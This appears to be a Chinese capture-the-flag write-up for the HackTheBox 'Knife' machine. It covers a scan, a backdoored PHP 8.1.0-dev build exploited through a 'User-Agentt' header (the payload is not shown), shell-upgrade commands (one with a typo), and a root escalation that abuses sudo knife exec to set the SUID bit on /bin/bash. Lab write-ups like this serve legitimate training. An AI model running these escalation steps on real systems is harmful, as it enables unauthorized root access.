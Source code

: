 # 原创
：  HackTheBox-Knife

# HackTheBox-Knife

#### HackTheBox-Knife

## 连接配置

> 



## 渗透测试

### 信息搜集

> 



```
sudo nmap 10.10.10.242

```

> 



### 漏洞挖掘

> 
联想到题目名字应该是存在后门，查看源码和抓包分析后发现存在 `PHP/8.1.0-dev`，该版本在2021年3月28日被植入后门，当服务器存在该后门时攻击者可以通过发送 `User-Agentt` 头来执行任意代码


> 



### getshell

> 



```
python3 -c 'import pyt;pty.spawn("/bin/bash")'
或者
SHELL=/bin/bash script -q /dev/null

```

> 



### 提权

> 



```
sudo -l
ls /usr/bin/knife -al

```

> 



```
echo "system('chmod +s /bin/bash')" &gt; exploit.rb
sudo /usr/bin/knife exec exploit.rb
/bin/bash -p

```
